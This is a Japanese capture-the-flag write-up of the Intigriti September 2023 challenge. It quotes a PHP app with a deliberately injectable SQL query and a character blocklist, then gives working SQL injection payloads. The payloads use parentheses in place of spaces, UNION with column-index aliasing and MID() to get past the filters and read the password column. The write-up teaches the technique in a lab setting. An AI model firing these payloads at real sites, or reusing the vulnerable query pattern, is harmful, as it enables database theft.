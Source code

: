 ```yaml
---
title: "Intigrity 2023\nSeptember Challenge\nWriteup"
id: "intigrity-2023-september-challenge-writeup"
description: "Intigrity 2023 September Challenge WriteupのWriteupです。"
author: "rikoteki"
createdAt: "2023-10-05"
isDraft: false
---
```


#　アプリケーション調査

php製のサイトでユーザー一覧の機能があります。

![image](https://github.com/r1k0t3k1/note/assets/57973603/b9788cf0-824f-45ce-bce6-51eda38c3b6e)

画面下部の`Show source`をクリックすることでアプリケーション自体のソースコードが閲覧できます。

![image](https://github.com/r1k0t3k1/note/assets/57973603/4af70f4a-1c1c-403b-a56d-95ed1e5da67a)

以下のようにSQLが実行されているのが確認できます。

Prepared Statementを使用しておらず、SQLインジェクションの脆弱性があります。

```php
try{
//seen in production
$stmt = $pdo->prepare("SELECT id, name, email FROM users WHERE id<=$max");
$stmt->execute();
$results = $stmt->fetchAll();
}
catch(\PDOException $e){
    exit("ERROR: BROKEN QUERY");
} 
```

ただし、以下の部分で文字列フィルターが実装されており、禁止文字列を使用すると`H4ckerzzzz`のレスポンスが返るようになっています。

```php
if (isset($_GET['max']) && !is_array($_GET['max']) && $_GET['max']>0) {
    $max = $_GET['max'];
    $words  = ["'","\"",";","`"," ","a","b","h","k","p","v","x","or","if","case","in","between","join","json","set","=","|","&","%","+","-","<",">","#","/","\r","\n","\t","\v","\f"]; // list of characters to check
    foreach ($words as $w) {
        if (preg_match("#".preg_quote($w)."#i", $max)) {
            exit("H4ckerzzzz");
        } //no weird chars
    }       
}
```

また、SQLで取得したデータをHTMLに描画する際も文字列フィルターが存在し、`INTIGRITI`がカラムの値に含まれている場合、`REDACTED`に変換されます。

```php
<tbody>
  <?php foreach ($results as $row): ?>
    <tr>
      <td><?= htmlspecialchars(strpos($row['id'],"INTIGRITI")===false?$row['id']:"REDACTED"); ?></td> 
      <td><?= htmlspecialchars(strpos($row['name'],"INTIGRITI")===false?$row['name']:"REDACTED"); ?></td>
      <td><?= htmlspecialchars(strpos($row['email'],"INTIGRITI")===false?$row['email']:"REDACTED"); ?></td>
    </tr>
  <?php endforeach; ?>
</tbody> 
```

また、usersテーブルの構造も与えられます。

passwordフィールドが取得されていないのでフラグはおそらくpasswordにあると思います。

```sql
/* FYI
CREATE TABLE users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    name VARCHAR(255) NOT NULL,
    email VARCHAR(255) UNIQUE NOT NULL,
    password VARCHAR(255) NOT NULL
);
*/ 
```


ここまででフラグを得る方針として、

- SQLインジェクションでUNION句を追加し、表示されていない`password`を表示させる。
- `INTIGRITI`フィルターを回避する。

を立てます。


# SQLインジェクションでUNION句を実行する

ソースコードからURLパラメータ`max`にSQLインジェクションがあることがわかっているのでUNION句を実行する方法を探します。

ただし、SQLフィルターにより多くの文字が使用できません。特にスペースが使用できないのは痛いです。

そこでスペース無しでSQLを実行する方法を探していると以下の記事がヒットしました。

[No spaces bypass](https://book.hacktricks.xyz/pentesting-web/sql-injection#no-spaces-bypass)

[No -*|%/ and no whitespace, is this SQL injectable?](https://security.stackexchange.com/questions/252464/no-and-no-whitespace-is-this-sql-injectable)

これらの記事によると、以下のSQLは

```sql
SELECT id, name FROM Users;
```

以下のように`()`を使用することで実行できるようです。

```sql
SELECT(id),(name)FROM(users);
```

試しに正しいカラム数の行を追加してみると、成功します。

```sql
max=1^(1)UNION(SELECT(1),2,3)
```

![image](https://github.com/r1k0t3k1/note/assets/57973603/c071211f-19d0-4ae7-a365-d0a89794f163)

次にUNIONでusersテーブルのpasswordをSELECTしたいところですが、SQLフィルターによって`p`や`a`などの文字が引っかかってしまいます。

```sql
/*selectでpasswordカラムを指定できない*/
max=1^(1)UNION(SELECT(id),name,(password)FROM(users))
```

そこで`テーブル名.カラムインデックス`でカラムを指定する方法を使用します。

[Bypass column names restriction](https://book.hacktricks.xyz/pentesting-web/sql-injection#bypass-column-names-restriction)

このSQLのid,nameは

```sql
SELECT id, name FROM users;
```

以下のSQL文で取得できます。

```sql
SELECT U.1,U.2 FROM (SELECT 1,2,3,4 UNION SELECT * FROM users)U
```

この方法を用いて以下のペイロードを作成します。

```
?max=1^(1)UNION(SELECT(U.1),U.2,(U.4)FROM(SELECT(1),2,3,(4)UNION(SELECT*FROM(users)))U)
```

このペイロードを送信すると編集されたパスワードフィールドが閲覧できます。

![image](https://github.com/r1k0t3k1/note/assets/57973603/3b37de58-eded-4984-b00a-238a24024086)

後は`INTIGRITI`フィルターを突破します。

SQLで取得した文字列に`INTIGRITI`という文字列が含まれていなければOKなので`MID`関数を使用します。

ここでもSQLフィルターは有効なので使える関数は限られてきます。

上記のペイロードの`U.4`をSELECTしている部分を下記のように変更して送信します。

フラグの２文字目から最後までを取得するという処理です。

```
?max=1^(1)UNION(SELECT(U.1),U.2,MID(U.4,2)FROM(SELECT(1),2,3,(4)UNION(SELECT*FROM(users)))U)
```

これでフィルターを回避してフラグを表示させることができます。(フラグの一文字目は`I`です。)

![image](https://github.com/r1k0t3k1/note/assets/57973603/77f389c5-7e67-4df9-983a-515755b33882)

まとめ
- SQLは`()`を使用することでスペースフィルターをバイパスできる
- SQLは列名をエイリアス化することで列名フィルターをバイパスできる
- PHPによる文字列フィルターはSQLの文字列関数を使用することでバイパスできる
